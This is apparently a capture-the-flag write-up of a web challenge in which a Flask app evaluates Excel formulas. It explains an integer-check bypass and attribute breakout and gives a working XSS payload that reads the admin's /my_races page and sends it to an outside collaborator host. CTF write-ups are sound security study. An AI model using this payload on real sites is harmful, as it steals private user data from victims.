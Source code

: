 
After reading around the code we can see some interesting EXCEL processing happening. I realized we can only input numbers for the rank and this is cool because
there's also some custom JINJA styling function.

<img width="479" alt="Screenshot 2024-11-22 at 4 25 07 PM" src="https://github.com/user-attachments/assets/634a2ea8-ed61-430a-b6d2-877858e043e1">
<img width="852" alt="Screenshot 2024-11-22 at 4 24 56 PM" src="https://github.com/user-attachments/assets/dd6303aa-4d80-4850-aec6-a4fc24f48ca1">


Also another interesting thing is "evaluate", so this will actually evaluate excel functions. I thought of RCE, but then realized there's a bot.py so this is definitely XSS.

I realized if I can get something to evaluate and somehow change a value I can bypass this check, this is because .evaluate is ran TWICE, the second time with no 
type checking.

<img width="553" alt="Screenshot 2024-11-22 at 4 26 25 PM" src="https://github.com/user-attachments/assets/07946a11-5350-42e2-baa1-f901ba34c347">


Moreover, I realized they're using Column **E** as well, so I just wrote up a simple function to dynamically change the value of "rank" so I can inject and
break out of the attribute (can be seen in the style( ) function dict2attributes HTML).

<img width="432" alt="Screenshot 2024-11-22 at 4 27 25 PM" src="https://github.com/user-attachments/assets/39cb3d00-61c8-4e20-956b-ea58fa4a5c28">


Here is the technique to bypass their integer checks:
<img width="737" alt="Screenshot 2024-11-22 at 4 28 05 PM" src="https://github.com/user-attachments/assets/7ff1661f-4947-4be6-8a05-ea2f716388da">


ALright, here were some of the issues I encountered:
1) There is HTTPOnly set on the Flask session cookies by default, so we can't steal it using document.cookie
2) No spaces can be used (it breaks the custom Jinja style() function) -> to get around this I used **/** before onerror, and the browser will "fix" it for us by replacing it with a **[SPACE]**
3) No double quotes can be used -> used single quotes
4) To get the flag I tried making a request to internal redis://. and then the admin's /my_races, which worked.


I used Burp collaborator (you can use free services, a lot of them have limits which can be annoying):

If you read the docker files you can see it runs on localhost:5000, I also uploaded a document.local.href, just to ensure:

Solution:
1"/onerror=fetch('http://localhost:5000/my_races').then(response=>response.text()).then(data=>{fetch('https://j7rgotwyb2h2mvoq7ajz38780z6quhi6.oastify.com/?stolencookie='+btoa(data.slice(0,5000))).then(innerResponse=>innerResponse.text()).then(innerData=>console.log(innerData)).catch(innerError=>console.error('InnerError:',innerError));}).catch(error=>console.error('Error:',error))


<img width="1087" alt="Screenshot 2024-11-22 at 4 30 53 PM" src="https://github.com/user-attachments/assets/e3c1d448-1330-43f0-9657-0605cadd1367">


<img width="717" alt="Screenshot 2024-11-22 at 4 31 18 PM" src="https://github.com/user-attachments/assets/84cdee6f-ab36-46c5-822f-1995187f62e0">

